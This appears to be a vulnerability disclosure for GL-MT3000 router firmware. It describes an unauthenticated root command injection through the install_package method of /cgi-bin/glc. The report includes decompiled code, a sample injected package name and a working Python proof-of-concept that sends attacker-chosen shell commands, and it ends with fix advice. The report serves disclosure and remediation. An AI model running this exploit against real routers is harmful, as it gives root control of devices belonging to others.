


Submission Date: 2026.5.13
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint. The `plugins.so` shared object exports an `install_package` function that accepts a `name` array of package names from the JSON request body. For each package name, it calls `sprintf(cmd, "%s install %s >> /tmp/opkg.stdout 2>>/tmp/opkg.stderr;sync", "opkg --force-overwrite --nocase", pkg_name)` followed by `system(cmd)`. No shell quoting is applied. An attacker can inject `;cmd;#` to execute arbitrary commands as root without authentication. This function additionally requires network connectivity and passes an opkg lock check.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"plugins", "method":"install_package",
      "args":{"name":["x;id>/tmp/poc;#"]}}

  -> /www/cgi-bin/glc
       dlopen("plugins.so") → dlsym("install_package") → handler(args)

  -> plugins.so::install_package (0x104364)
       get_net_status()          // network reachable gate
       check_file_is_exist("/var/lock/opkg.lock")  // opkg lock gate
       names = json_object_get(args, "name")       // array

       for each pkg_name in names:
           // gl-tor special handling (flash space check)
           sprintf(cmd, "%s install %s >> /tmp/opkg.stdout 2>>/tmp/opkg.stderr;sync",
                   "opkg --force-overwrite --nocase", pkg_name);
           system(cmd);  // 💣

  -> /bin/sh -c:
       opkg --force-overwrite --nocase install x
       ;id>/tmp/poc       ← 💣 RCE
       ;#                  ← comment
```

The `install_package` function at offset 0x104364 iterates through the name array:



```c
// plugins.so::install_package (0x104364)
// Gate: check network + opkg lock
if (!get_net_status()) return "Network unreachable";
if (check_file_is_exist("/var/lock/opkg.lock")) return "Resource unavailable";

names = json_object_get(args, "name");
count = json_array_size(names);

for (i = 0; i < count; i++) {
    pkg_name = json_string_value(json_array_get(names, i));

    // gl-tor: check flash space (not a shell filter)
    if (!strcmp(pkg_name, "gl-tor")) { ... }

    // 💣 Sink — no quoting
    sprintf(cmd, "%s install %s >> /tmp/opkg.stdout 2>>/tmp/opkg.stderr;sync",
            "opkg --force-overwrite --nocase", pkg_name);
    system(cmd);
}
```

**Additional gates vs remove_package:**

| Gate | Effect |
|------|--------|
| Network reachable | Must pass `get_net_status()` — blocks offline-only attacks |
| `/var/lock/opkg.lock` | Same as remove_package |
| Flash space check (gl-tor only) | Not a shell filter, only checks available space |

The injection mechanism is identical to remove_package — package name in unquoted position:

```text
Normal:  name = ["somepkg"]
         → opkg ... install somepkg >> ...
         ✅

Exploit: name = ["x;id>/tmp/poc;#"]
         → opkg ... install x
         → ;id>/tmp/poc;  ← 💣 RCE
         → ;#              ← comment
```



```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

req = urllib.request.Request(
    f"{TARGET}/cgi-bin/glc",
    data=json.dumps({"object":"plugins","method":"install_package",
        "args":{"name":[f"x;{CMD}>/tmp/p19_install 2>&1;#"]}}).encode(),
    headers={"Content-Type":"application/json"}, method="POST")
print(urllib.request.urlopen(req, timeout=10, context=ctx).read().decode()[:200])
print("[+] check /tmp/p19_install")
```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `plugins.so` install_package | Replace `sprintf`+`system()` with `fork()`+`execv()` |
| P0 | `plugins.so` install_package | Validate each name against `^[a-zA-Z0-9][a-zA-Z0-9._-]*$` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
